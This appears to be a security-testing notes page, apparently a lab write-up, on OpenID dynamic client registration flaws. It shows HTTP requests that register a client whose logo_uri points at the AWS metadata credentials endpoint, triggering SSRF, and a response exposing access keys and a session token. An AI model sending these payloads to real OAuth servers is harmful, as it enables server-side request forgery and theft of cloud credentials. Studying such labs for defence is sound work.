 # Unprotected dynamic client registration

OpenID specification outlines a standardized way of allowing client applications to register with the OpenID provider. If dynamic client registration is supported, the client application can register itself by sending a `POST` request to a dedicated `registration endpoint`.

```http
GET /.well-known/openid-configuration HTTP/1.1
Host: oauth-0a49007104101d0f80a9b039028b0021.oauth-server.net

HTTP/1.1 OK
...
"registration_endpoint":"https://oauth-0a49007104101d0f80a9b039028b0021.oauth-server.net/reg",
...
```

In the request body, the client application submits key information about itself in JSON format. For example, it will often be required to include an array of whitelisted redirect URIs. It can also submit a range of additional information, such as the names of the endpoints they want to expose, a name for their application, and so on:
```http
POST /openid/register HTTP/1.1
Content-Type: application/json
Accept: application/json
Host: oauth-authorization-server.com
Authorization: Bearer ab12cd34ef56gh89

{
    "application_type": "web",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "client_name": "My Application",
    "logo_uri": "https://client-app.com/logo.png",
    "token_endpoint_auth_method": "client_secret_basic",
    "jwks_uri": "https://client-app.com/my_public_keys.jwks",
    "userinfo_encrypted_response_alg": "RSA1_5",
    "userinfo_encrypted_response_enc": "A128CBC-HS256",
    …
}
```

The OpenID provider should require the client application to authenticate itself. In the example above, they're using an HTTP bearer token. However, some providers will allow dynamic client registration without any authentication, which enables an attacker to register their own malicious client application. This can have various consequences depending on how the values of these attacker-controllable properties are used.

### SSRF registering an arbitrary client application
Registered an arbitrary client application whose logo points to an internal file:
```http
POST /reg HTTP/2
Host: oauth-0a49007104101d0f80a9b039028b0021.oauth-server.net
Content-Type: application/json
Accept: application/json
Content-Length: 164

{
"redirect_uris":["https://0a5600d103788bb080432bac006700c5.web-security-academy.net/oauth-callback"],
"logo_uri":"http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}


HTTP/2 201 Created
{
...
"client_id":"yuaSTlgu9Sr2DvqIkxFJY",
...
"redirect_uris":["https://0a5600d103788bb080432bac006700c5.web-security-academy.net/oauth-callback"],
"logo_uri":"http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
...
}
```

When we authenticate using the arbitrary registered client, the OAuth server tries to retrieve the logo for the current client, triggering a [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md)  and exposing some secrets:
```http
GET /auth?client_id=yuaSTlgu9Sr2DvqIkxFJY&redirect_uri=https://0a5600d103788bb080432bac006700c5.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/2
Host: oauth-0a1d009003318be08017298f0296002b.oauth-server.net


...

GET /client/yuaSTlgu9Sr2DvqIkxFJY/logo HTTP/2
Host: oauth-0a1d009003318be08017298f0296002b.oauth-server.net

HTTP/2 200 OK
{
"Code" : "Success",
"LastUpdated" : "2023-04-28T13:12:21.802021957Z",
"Type" : "AWS-HMAC",
"AccessKeyId" : "GPd2FCck7fJfIWh8TlEi",
"SecretAccessKey" : "Yi6QelRfIIF5aXDEgfJob1OtG7sPRfUZ7rTwn5LD",
"Token" : "a9N3fN9UeK1IlU5rmjPVhIgj15DG7hcgxLLarGuvzs7ud6yd9UOxh4gWbRQBIHhyE4patipOcN2IKWnZBW5SYbvdbInwYVvK8Kt5H7lWpQk53fJVIK5jAYNgfMV8gBV8lzlhxugqdsFOQUC2lVPD67dPh2R7wGESNEV8Q8KsDxGNgVZwdKLkkKjp6v6I8JMGlq1QImrD3ufBX5tsJGcb0UjIbpMN8NGJgpvvhqoV3nZf6JBj9EMUNPa36iM0gST8",
"Expiration" : "2029-04-26T13:12:21.802021957Z"
}
```


# Allowing authorization requests by reference

Up to this point, we've looked at the standard way of submitting the required parameters for the authorization request i.e. via the query string. Some OpenID providers give you the option to pass these in as a JSON web token (JWT) instead.

If this feature is supported, you can send a single `request_uri` parameter pointing to a JSON web token that contains the rest of the OAuth parameters and their values. Depending on the configuration of the OAuth service, this `request_uri` parameter is another potential vector for [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md)

You might also be able to use this feature to bypass validation of these parameter values. Some servers may effectively validate the query string in the authorization request, but may fail to adequately apply the same validation to parameters in a JWT, including the `redirect_uri`.

To check whether this option is supported, you should look for the `request_uri_parameter_supported` option in the configuration file and documentation. Alternatively, you can just try adding the `request_uri` parameter to see if it works. You will find that some servers support this feature even if they don't explicitly mention it in their documentation.